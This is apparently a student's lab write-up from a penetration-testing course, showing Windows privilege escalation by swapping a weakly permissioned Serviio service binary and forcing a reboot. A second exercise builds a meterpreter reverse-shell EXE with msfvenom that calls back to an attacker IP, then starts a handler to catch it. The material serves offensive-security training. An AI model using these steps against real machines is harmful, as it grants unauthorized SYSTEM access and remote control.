### 18.2.4.1 Exercises
#### 1. Log in to your Windows client as an unprivileged user and attempt to elevate your privileges to SYSTEM using the above vulnerability and technique.

1. Look for running processes on the system using Powershell, then notice that serviio is in the Program Files directory, meaning it is user installed.

   ```powershell
   Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
   ```

   

2. Enumerate permissions on the target service (serviio) with icacls tool

   - Look for the permissions regular users have.  If you see an 'F', then that is a vulnerability

     ```powershell
     icacls 'C:\Program Files\Serviio\bin\ServiioService.exe'
     ```

     

3. Create malicious program to replace the target service with
   

4. Move it to the target machine, backup the real program and set the malicious one in its place.
   
   

5. Tried to restart the service to execute the binary, but unable to do so due to lack of permissions.

   

6. Check if the service is set to automatic:

   ```powershell
   # Run this from command prompt, not powershell
   
   wmic service where caption="Serviio" get name, caption, state, startmode
   ```

   'StartMode' set to 'Auto', indicating a reboot will automatically start the service.
   

7. Check if the current user has rights to restart the system:

   ```powershell
   whoami /priv
   ```

   `SeShutdownPrivilege` is listed, indicating I have the privileges to restart:
   

8. Issue a reboot for the machine

   ```powershell
   shutdown /r /t 0
   ```

9. Successfully logged in as badguy/badpass
   


#### 2. Attempt to get a remote system shell rather than adding a malicious user.

1. Constructed a reverse shell with msfvenom as an EXE file and netcat:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe > metshell.exe
   ```

   

2. Transferred EXE from Kali to Windows
   

3. Replaced ServiioService.exe (the old exploit) with metshell.exe
   

4. Started meterpreter handler on Kali

   ```bash
   msfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
   ```

   
   
5. Restarted Windows & meterpreter session was established when service ran:
   
   


